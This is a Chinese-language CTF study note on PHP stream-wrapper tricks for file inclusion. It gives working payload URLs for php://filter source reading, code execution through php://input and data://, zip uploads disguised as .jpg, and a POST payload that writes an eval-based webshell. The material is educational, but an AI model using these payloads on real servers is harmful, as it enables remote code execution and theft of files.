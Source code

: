 # PHP安全学习—伪协议

Author: H3rmesk1t

Data: 2020.11.29

# 前言
常见的文件包含函数：include、require、include_once、require_once、highlight_file 、show_source 、readfile 、file_get_contents 、fopen 、file


# 配置
PHP.ini：
allow_url_fopen ：on  默认开启  该选项为on便是激活了 URL 形式的 fopen 封装协议使得可以访问 URL 对象文件等。
allow_url_include：off  默认关闭，该选项为on便是允许 包含URL 对象文件等。
本次测试使用的PHP版本为>=5.2 具体为5.2，5.3，5.5，7.0；PHP版本<=5.2 可以使用%00进行截断。

# 是否截断问题
本篇由以下这个简单的例子进行探讨，首先看如下两种文件包含情况。

情况一：不需要截断：
```php
http://127.0.0.1/test.php?file=file:///c:/users/ctf/desktop/flag.txt

<?php

include($_GET['file'])

?>
```

情况二：需要截断：

```php
在php版本<=5.2中进行测试是可以使用%00截断的。

http://127.0.0.1/test.php?file=file:///c:/users/ctf/desktop/flag.txt%00

<?php

include($_GET['file'].'.php')

?>
```

**0x02 allow_url_fopen与allow_url_include是否开启的问题：**

# file://协议

PHP.ini：
file:// 协议在双off的情况下也可以正常使用；
allow_url_fopen ：off/on
allow_url_include：off/on

file:// 用于访问本地文件系统，在CTF中通常用来读取本地文件的且不受allow_url_fopen与allow_url_include的影响
[参考链接](http://php.net/manual/zh/wrappers.file.php)

使用方法：
file:// [文件的绝对路径和文件名]
http://127.0.0.1/cmd.php?file=file://D:/ctf/phpStudy/WWW/flag.txt

# php://协议

条件：
不需要开启allow_url_fopen，仅php://input、 php://stdin、 php://memory 和 php://temp 需要开启allow_url_include。

php:// 访问各个输入/输出流（I/O streams），在CTF中经常使用的是php://filter和php://input，php://filter用于读取源码，php://input用于执行php代码。
[参考链接](http://php.net/manual/zh/wrappers.php.php#refsect2-wrappers.php-unknown-unknown-unknown-descriptioq)
php://filter 读取源代码并进行base64编码输出，不然会直接当做php代码执行就看不到源代码内容了。
[参考链接](https://www.leavesongs.com/PENETRATION/php-filter-magic.html#_1)

PHP.ini：
php://filter在双off的情况下也可以正常使用；
allow_url_fopen ：off/on
allow_url_include：off/on
```bash
http://127.0.0.1/cmd.php?file=php://filter/read=convert.base64-encode/resource=./cmd.php
```
php://input 可以访问请求的原始数据的只读流, 将post请求中的数据作为PHP代码执行。

PHP.ini：
allow_url_fopen ：off/on
allow_url_include：on

测试现象：

```php
http://127.0.0.1/cmd.php?file=php://input

[POST DATA] <?php phpinfo()?>

也可以POST如下内容生成一句话： <?php fputs(fopen("shell.php","w"),'<?php eval($_POST["cmd"];?>');?>
```

# zip://, bzip2://, zlib://协议

PHP.ini：
zip://, bzip2://, zlib://协议在双off的情况下也可以正常使用；
allow_url_fopen ：off/on
allow_url_include：off/on
zip://, bzip2://, zlib:// 均属于压缩流，可以访问压缩文件中的子文件，更重要的是不需要指定后缀名。
[参考链接](http://php.net/manual/zh/wrappers.compression.php)

【zip://协议】

使用方法：

```php
zip://archive.zip#dir/file.txt

zip:// [压缩文件绝对路径]#[压缩文件内的子文件名]

测试现象：

http://127.0.0.1/cmd.php?file=zip://D:/soft/phpStudy/WWW/file.jpg%23phpcode.txt

先将要执行的PHP代码写好文件名为phpcode.txt，将phpcode.txt进行zip压缩,压缩文件名为file.zip,如果可以上传zip文件便直接上传，若不能便将file.zip重命名为file.jpg后在上传，其他几种压缩格式也可以这样操作。
由于'#'在get请求中会将后面的参数忽略所以使用get请求时候应进行url编码为%23，且此处经过测试相对路径是不可行，所以只能用绝对路径。

将phpinfo.txt压缩成zip，实战中可以改后缀为jpg绕过上传限制。

http://192.168.43.173:8999/lsawebtest/phptest/phprotocol1.php?file=zip://C:/phpStudy/PHPTutorial/WWW/lsawebtest/phptest\phpinfo.jpg%23phpinfo.txt

注意要用绝对路径+url编码#
```
【bzip2://协议】

使用方法：

```php
compress.bzip2://file.bz2

测试现象：

http://127.0.0.1/cmd.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpg

http://127.0.0.1/cmd.php?file=compress.bzip2://./file.jpg
```

【zlib://协议】

使用方法：

```php
compress.zlib://file.gz

测试现象：

http://127.0.0.1/cmd.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpg

or

http://127.0.0.1/cmd.php?file=compress.zlib://./file.jpg
```

# data://协议

data:// 协议是是受限于allow_url_fopen的

PHP.ini：
data://协议必须双在on才能正常使用；
allow_url_fopen ：on
allow_url_include：on

[参考链接](http://php.net/manual/zh/wrappers.data.php)
官方文档上allow_url_fopen应为yes。

测试现象：

```bash
http://127.0.0.1/cmd.php?file=data://text/plain,<?php phpinfo()?>

http://127.0.0.1/cmd.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

也可以：

http://127.0.0.1/cmd.php?file=data:text/plain,<?php phpinfo()?>

http://127.0.0.1/cmd.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
```

这里借鉴一个图：
![在这里插入图片描述](https://img-blog.csdnimg.cn/img_convert/536e6294ecad380a85aa925b01e500ba.png#pic_center)
**参考资料：**
[资料1](https://www.freebuf.com/column/148886.html)
[资料2](http://php.net/manual/zh/wrappers.php)